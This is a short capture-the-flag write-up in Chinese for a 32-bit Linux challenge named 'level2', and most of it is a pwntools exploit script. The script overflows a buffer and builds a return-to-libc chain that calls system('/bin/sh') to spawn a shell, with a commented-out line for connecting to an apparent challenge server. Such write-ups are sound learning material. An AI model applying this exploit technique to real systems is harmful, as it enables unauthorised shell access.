# level2

从level2进程本身找出system函数和"/bin/sh"字符串即可。  

EXP：  
```python
import pwn

pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./level2')
#p = pwn.remote('220.249.52.133', 32564)

e = pwn.ELF('./level2')
system_addr = pwn.p32(e.plt['system'])
sh_addr = pwn.p32(next(e.search('/bin/sh')))

payload = b'A' * 0x88 + b'B' * 4 + system_addr + b'C' * 4 + sh_addr
p.sendlineafter(b'Input:', payload)

p.interactive()
```